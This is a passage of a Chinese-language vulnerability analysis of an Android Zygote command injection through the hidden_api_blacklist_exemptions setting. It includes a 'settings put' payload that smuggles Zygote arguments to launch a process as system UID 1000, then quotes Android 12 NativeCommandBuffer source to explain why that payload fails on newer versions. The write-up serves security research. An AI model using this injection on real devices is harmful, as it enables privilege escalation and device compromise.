 无论hidden_api_blacklist_exemptions 因为什么原因被修改后，ContentObserver的callback会被触发，新写入的值会被读取并在解析后（主要根据逗号进行string split）直接写入到zygote command socket中。一个典型的命令注入。  
## 利用socket特性实现全版本利用  
### Android12及以上版本所带来的困难  
  
攻击者最初的想法是直接注入触发进程启动的新命令，如下所示:  
```
settings put global hidden_api_blacklist_exemptions "LClass1;->method1(3--runtime-args--setuid=1000--setgid=10001--boot-completed"
"
```  
  
在Android11或者更早的版本这种payload是简单有效的，因为在这些版本中，Zygote是通过Java的 readLine 实现直接读取每一行，没有其他buffer实现影响。而在Android12中，情况变得非常复杂，命令解析现在由NativeCommandBuffer完成，这引入了一个核心区别，即**该解析器在解析一次内容之后，对于未识别的trailing内容，它将丢弃缓冲区中的所有内容并退出，而不是留作下一次解析**。这意味着命令注入的内容会被直接丢弃！  
```
NO_STACK_PROTECTOR
jboolean com_android_internal_os_ZygoteCommandBuffer_nativeForkRepeatedly(            JNIEnv* env,            jclass,            jlong j_buffer,            jint zygote_socket_fd,            jint expected_uid,            jint minUid,            jstring managed_nice_name) {

 //...
  bool first_time = true;
  do {
    if (credentials.uid != static_cast<uid_t>(expected_uid)) {
      return JNI_FALSE;
    }
    n_buffer->readAllLines(first_time ? fail_fn_1 : fail_fn_n);
    n_buffer->reset();
    int pid = zygote::forkApp(env, /* no pipe FDs */ -1, -1, session_socket_fds,
                              /*args_known=*/ true, /*is_priority_fork=*/ true,
                              /*purge=*/ first_time);
    if (pid == 0) {
      return JNI_TRUE;
    }
//...
    for (;;) {
      // Clear buffer and get count from next command.
      n_buffer->clear();
      //...
      if ((fd_structs[SESSION_IDX].revents & POLLIN) != 0) {
        if (n_buffer->getCount(fail_fn_z) != 0) {
          break;
        }  // else disconnected;
      } else if (poll_res == 0 || (fd_structs[ZYGOTE_IDX].revents & POLLIN) == 0) {
        fail_fn_z(
            CREATE_ERROR("Poll returned with no descriptors ready! Poll returned %d", poll_res));
      }
      // We've now seen either a disconnect or connect request.
      close(session_socket);
   //...
    }
    first_time = false;
  } while (n_buffer->isSimpleForkCommand(minUid, fail_fn_n));
  ALOGW("forkRepeatedly terminated due to non-simple command");
  n_buffer->logState();
  n_buffer->reset();
  return JNI_FALSE;
}

std::optional<std::pair<char*, char*>> readLine(FailFn fail_fn) {
    char* result = mBuffer + mNext;
    while (true) {
```